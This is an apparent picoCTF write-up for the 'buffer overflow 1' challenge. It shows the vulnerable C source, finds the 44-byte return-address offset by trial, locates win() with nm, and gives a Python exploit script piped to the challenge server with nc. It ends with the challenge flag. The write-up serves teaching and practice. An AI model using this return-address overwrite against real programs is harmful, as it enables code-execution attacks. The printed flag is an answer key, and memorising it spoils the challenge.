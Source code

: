 ![Task desc](../assets/images/buffer-overflow-1_image_1.png)


As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* After `buf` on stack there is other data, such as the base pointer (EBP/RBP) and the return address.
  
> [!NOTE]
> **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (`vuln`).


To call `win`, we need to input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.




Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:

![image_2](../assets/images/buffer-overflow-1_image_2.png)


Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  

![image_3](../assets/images/buffer-overflow-1_image_3.png)




I experimented with the number of characters needed to rewrite the return address and got the following:


 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```



The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


![image_5](../assets/images/buffer-overflow-1_image_5.png)



Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.

<br/>

Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.



Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```


![image_6](../assets/images/buffer-overflow-1_image_6.png)


Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    
![image_8](../assets/images/buffer-overflow-1_image_8.png)


```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```


![image_9](../assets/images/buffer-overflow-1_image_9.png)



`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
